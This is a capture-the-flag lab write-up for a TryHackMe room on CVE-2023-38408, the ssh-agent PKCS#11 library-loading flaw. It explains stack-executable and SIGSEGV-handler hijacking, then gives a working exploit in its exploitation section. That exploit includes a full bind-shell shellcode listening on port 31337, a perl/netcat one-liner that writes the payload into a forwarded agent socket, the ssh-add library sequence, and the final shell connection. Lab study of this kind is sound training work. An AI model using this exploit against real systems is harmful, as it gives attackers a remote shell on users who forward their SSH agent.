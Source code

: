 # CVE-2023-38408

**Room Link:** [https://tryhackme.com/r/room/cve202338408](https://tryhackme.com/r/room/cve202338408)

## Background Info

Initially, ssh-agent allowed loading any shared library without filtering, leading to security concerns. In response to CVE-2016-10009, an allow-list (`/usr/lib*/,/usr/local/lib/` by default) was added to limit library loading. However, it is possible to abuse the side effects of the library's constructors (`dlopen`) and destructors (`dlclose`) to manipulate memory and control the program flow.

Code execution can be achieved by making the stack executable, registering a signal handler for `SIGSEGV` and manipulating its code, replacing the signal handler's code with code from another library, triggering a `SIGSEGV`, and replacing his handler's code to finally jump into the stack where the shellcode is stored.

The following paragraphs will present the detailed steps:

**1. Making the Stack Executable:**

Leveraging `dlopen()` to load one of the libraries grants the ability to make the stack memory region (specifically the target process `ssh-pkcs11-helper`'s stack) executable. This allows bypassing the usual protection against executing code on the stack.

**2. Copy the shellcode to the stack:**

Once the shellcode is generated, typically using tools like Metasploit, it can be copied to the stack memory using the socket generated from the SSH connection. The shellcode is also combined with a `NOP sled` which is a sequence of No-Operation assembly instructions. The reason why is to provide a larger target for the program execution flow to land on during the gadget execution.\


To verify whether the process has the desired executable flag, you can use the following commands in dbg, a Linux debugger. You can repeat the next few gdb commands once you have gained access as alice:\


First, obtain the PID of the process ssh-pkcs11-helper.

1. Attach dbg to the target process using its PID.
2. Use the command info proc mapping to examine the memory mappings of the process.
3. Look for the memory region corresponding to the stack, and check its flags, marked as rwx.\


**Terminal**

```shell-session
alice@workstation:~$ ps -aux | grep pkcs11-helperalice
1522 0.0 0.2 7788 5520 ? S 09:22 0:00 /usr/lib/openssh/ssh-pkcs11-helper
alice@workstation:~$ sudo gdb -p 1522
[snip]
29 ../sysdeps/unix/sysv/linux/poll.c: No such file or directory. (gdb) info proc mappings process 1522 Mapped address spaces:
Start Addr End Addr Size Offset Perms objfile
[snip]
0x7ffc7a83b000 0x7ffc7a85c000 0x21000 0x0 rwxp
[stack]
0x7ffc7a9df000 0x7ffc7a9e3000 0x4000 0x0 r--p
[vvar]
0x7ffc7a9e3000 0x7ffc7a9e5000 0x2000 0x0 r-xp
[vdso]
0xffffffffff600000 0xffffffffff601000 0x1000 0x0 --xp 
[snip]
```

Using gdb, you can verify whether the stack has the shellcode loaded by inspecting its content.\


Regarding the command `$rsp+10100`, it is an expression that references a specific memory location relative to the stack pointer (`$rsp`). In this case, `$rsp+10100` points to the memory location located 10100 bytes above the stack pointer.\


Observe that it contains a series of NOP (No Operation) instructions followed by the start of the shellcode: `0x31 0xc0 0x48 0x31 0xc0 0xff 0x48`

**Terminal**

```shell-session
(gdb) x/100xgb $rsp+10100
0x7ffc7a85994c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859954: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85995c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859964: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85996c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859974: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85997c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859984: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85998c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859994: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85999c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a8599a4: 0x90 0x90 0x90 0x90 0x90 0x48 0x31 0xc0
0x7ffc7a8599ac: 0x48 0x31 0xff 0x48
```

\


**3. Registering a Signal Handler:**

To successfully execute arbitrary code within the exploit, a custom signal handler must be registered for the `SIGSEGV` signal. This signal, known as a Segmentation Fault, is triggered when a program attempts to access an invalid memory address. By registering the signal handler, the exploit gains the ability to define a user-defined function that will be executed whenever the `SIGSEGV` signal occurs.

**4. Replacing the Signal Handler's Code:**

At this stage, the exploit leverages the technique of side-loading another library to replace the current signal handler's code with an alternative code segment that will jump to the stack where the shellcode is stored.

To ensure that the code segments of this new library remain mapped in memory even after `dlclose()` is invoked, the library must be marked with the "`Nodelete`" attribute. Ordinarily, when `dlclose()` is called to close a shared library, the library's code segments are unloaded from memory, and any associated resources are released. However, by utilizing the "`Nodelete`" attribute, the attacker prevents the code segments from being unloaded, effectively preserving their existence in memory beyond the `dlclose()` operation. This ensures that the replacement code, responsible for jumping to the shellcode in the stack, remains accessible and functional throughout the exploit's execution.

**5. Triggering SIGSEGV:**

By employing yet another library, the attacker intentionally triggers a `SIGSEGV` signal, which prompts the kernel to execute the custom signal handler previously registered. This strategic step is a critical part of the exploit's progression.

Upon receiving the `SIGSEGV` signal, the kernel recognizes that an invalid memory access has occurred and proceeds to invoke the custom signal handler rather than terminate the program abruptly. By doing so, the attacker seizes the opportunity to manipulate the program's execution and steer it toward the injected malicious code located within the NOP sled.

**6. Executing the Replacement Code:**

By achieving this precise jump into the executable stack, the exploit ensures that the program's execution is directed toward the specific memory location where the shellcode resides.&#x20;



## Exploitation

In this task, we will delve into running the exploit and gaining a more practical understanding of its functionality.\


For this particular scenario, we will be working with two machines: the workstation (a vulnerable instance of Ubuntu 21.04) and another server which is under the attacker's control (Attackbox). To simulate the vulnerable instance, a connection between the workstation and the server has been employed in the previous task. There is a user alice who is connected from the workstation to the attacker using SSH agent forwarding. Alice does this by executing the following commands (so you do not have to):

**Kali**

```
echo /tmp/ssh-*/agent.*
export SSH_AUTH_SOCK=/tmp/ssh-m0jgGsq7Jm/agent.3921
ssh-add -s /usr/lib/systemd/boot/efi/linuxx64.elf.stub
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To copy the shellcode into the process using the SSH socket, you need to follow these steps:

1. Obtain the `PID` of the SSH agent running on the remote attacker machine.
2. Once you have the socket, use netcat (`nc`) to transfer the shellcode to the agent's memory (workstation).&#x20;
3. After starting the transfer, wait for a few seconds to ensure the shellcode is fully copied into the target memory.
4. Finally, press Ctrl-C to stop the netcat transfer once the shellcode is successfully placed in the agent's memory.

Note that the next command will not use `ssh-add`. Because the malicious payload is around 10KB passphrase and ssh-add has a limit of 1KB.

**Kali**

```
SHELLCODE=$'\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05' 


(perl -e 'print "\0\0\x27\xbf\x14\0\0\0\x10/usr/lib/modules\0\0\x27\xa6" . "\x90" x 10000'; echo -n "$SHELLCODE") | nc -U "$SSH_AUTH_SOCK"

^C
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The next step to the exploitation process is register the signal handler for the Segmentation Fault (`SIGSEGV`) signal.

**Kali**

```
ssh-add -s /usr/lib/titan/libttcn3-rt2-dynamic.so
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After successfully registering the custom signal handler for `SIGSEGV`, the next crucial step in the exploitation process is to replace the original signal handler routine with a carefully chosen gadget. This gadget will serve as a means to redirect the program's execution flow and jump into the stack when the SIGSEGV signal is triggered.

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libKF5SonnetUi.so.5.92.0
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, by intentionally causing a segmentation fault, the `SIGSEGV` event can be triggered, executing the shellcode:

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libns3.35-wave.so.0.0.0
```

**Victim**

```
nc localhost 31337
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
